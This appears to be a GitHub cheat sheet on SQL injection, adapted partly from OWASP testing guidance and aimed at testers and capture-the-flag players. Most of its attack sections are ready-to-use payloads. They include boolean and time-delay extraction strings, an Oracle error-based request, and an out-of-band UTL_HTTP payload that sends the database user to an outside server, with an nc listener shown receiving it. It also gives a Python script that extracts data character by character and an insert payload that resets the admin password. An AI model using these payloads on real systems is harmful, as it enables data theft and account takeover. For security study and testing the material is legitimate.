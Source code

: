 # SQL Injection
---
## Navigation
- **[Detection Techniques](#Detection%20Techniques)**
- **[Boolean Exploitation Technique](#Boolean%20Exploitation%20Technique)**
- **[Error Based Exploitation Technique](#Error%20Based%20Exploitation%20Technique)**
- **[Out of Band Exploitation Technique](#Out%20of%20Band%20Exploitation%20Technique)**
- **[Time Delay Exploitation Technique](#Time%20Delay%20Exploitation%20Technique)**
- **[Orderby](#Order-by)**
- **[Insert statement](#Insert%20statement)**
- **[Evasion techniques](#Evasion%20techniques)**

---
#### SQL Injection attacks can be divided into the following three classes:
- **Inband:** data is extracted using the same channel that is used to inject the SQL code.
- **Out-of-band:** data is retrieved using a different channel (e.g., an email).
- **Inferential or Blind:** there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.


#### The techniques to exploit SQL injection flaws there are five commons techniques
-   **Union Operator:** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-   **Boolean:** use Boolean condition(s) to verify whether certain conditions are true or false.
-   **Error based:** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-   **Out-of-band:** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-   **Time delay:** use database commands (e.g. sleep) to delay answers in conditional queries. It is useful when attacker doesn’t have some kind of answer (result, output, or error) from the application.

## Detection Techniques
-   Authentication forms
-   Search engines:
-   E-Commerce sites
-   The tester has to make a list of all input fields whose values could be used in crafting a SQL query, **including the hidden fields of POST requests** and then test them separately.

## Boolean Exploitation Technique
The Boolean exploitation technique is very useful when the tester finds a [**Blind SQL Injection**](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation.

We suppose that the query executed on the server is:
```text
SELECT field1, field2, field3 FROM Users WHERE Id='$Id'
```

The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database.
-   **SUBSTRING (text, start, length):** returns a substring starting from the position “start” of text and of length “length”. If “start” is greater than the length of text, the function returns a null value.
- **ASCII (char):** it gives back ASCII value of the input character. A null value is returned if char is 0.
-   **LENGTH (text):** it gives back the number of characters in the input text.


```text
1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1
```

```text
1' AND LENGTH(username)=N AND '1' = '1
```
## Error Based Exploitation Technique
The Error based technique consists in **forcing the database to perform some operation in which the result will be an error**. The point here is to try to extract some data from the database and show it in the error message.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be (e.g. Oracle 10g):
```text
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is other query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:
```text
ORA-292257: host SCOTT unknown
```
## Out of Band Exploitation Technique
The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be:
```text
http://www.example.com/product.php?id=10||UTL_HTTP.request(‘server.com:80’||(SELECT user FROM DUAL)--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make a HTTP GET request containing the return from the query `SELECT user FROM DUAL`.
```bash
$nc -nvlp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```
## Time Delay Exploitation Technique
This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond.
The malicious request would be (e.g.**MySql 5.x**):
```text
http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
```
## Order-by
```sql
(select case when (SUBSTR((select flag from Flag),1,5)='flag{') then atomic_number else name end)
```
```sql
1 LIMIT 0, 1|1000*(SELECT instr(flag, 'flag{') FROM flag)
```
Code template (messy but works)
```python
inc = 5
flag = "flag{"
while True:
    for i in chars:
        print("[+] Trying: ", i, end="\r", flush=True)
        data = f"(select case when (SUBSTR((select flag from Flag),1,{inc + 1 })='{flag + i}') then atomic_number else name end)"
        Data = {"search": '', "order": data}
        req = requests.post(URL, headers=head, data=Data)
        check = str(req.content).replace(" ","").split("\\n").index("SEACRH FOR")
        if check == <NUMBER>:
            flag = flag + i
            inc += 1
            break
    print(f"[+] Flag is : {flag}")
    print("[!] Starting next iteration..")
    if flag[:-1] == "}":
        break

print(f"[+++] Flag = {flag}")
```
> **Multi-threaded script**: https://github.com/zAbuQasem/Misc/blob/main/Sql_injection.py

## Insert statement
```sql
username=admin&password=1337') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
```
## Unsecure-regex
Example of a weak regex implementation that this matching only numbers in the first line.
```python
num_format = re.compile(r'^\d+$', re.M)
if re.match(num_format,post_id):
post = conn.execute('SELECT * FROM posts WHERE id = '+post_id).fetchone()
```
This can be exploited by giving a multi-line input where the first line is only numbers and the second line is the SQL payload
```sql
1337%0A<SQL Payload>
```
## Evasion techniques
> **WAF: **https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

> **More techniques at the end of the page:** https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

